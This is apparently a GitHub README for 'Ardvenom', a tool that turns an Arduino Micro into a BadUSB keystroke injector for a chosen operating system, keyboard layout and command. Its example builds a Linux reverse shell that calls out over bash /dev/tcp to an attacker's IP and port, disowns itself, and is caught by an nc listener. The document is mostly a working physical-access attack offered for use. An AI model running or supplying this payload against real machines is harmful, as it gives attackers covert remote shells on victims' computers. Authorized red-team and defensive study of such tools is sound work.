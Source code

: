 # Ardvenom

A tool that auto generate badUSB like code for Arduino Micro code.

## Installation
### Requirements
Debian
```bash
apt-get install arduino arduino-cli
```
Arch
```bash
pacman -S arduino arduino-cli
```
### Preparation
add user to uucp group
```
sudo usermod -a -G uucp USERNAME
```
enter group to skip reboot
```bash
newgrp uucp
```

## Usage

Plug your Arduino Micro using USB cable.
![arduino](https://github.com/j4ckst0ne37/Ardvenom/blob/main/arduino.jpg?raw=true)

Run ardvenom.py
```bash
./ardvenom -o OS -l KEYBOARD_LAYOUT -c CMD
```
## Example

To make a simple reverse-shell for a Linux target.

```bash
./ardvenom -o linux -l qwerty -c "nohup bash -i >& /dev/tcp/IP/PORT 0>&1 > /dev/null & disown && exit"
```
In the other side
```bash
nc -vnlp PORT
```

## License
[MIT](https://choosealicense.com/licenses/mit/)
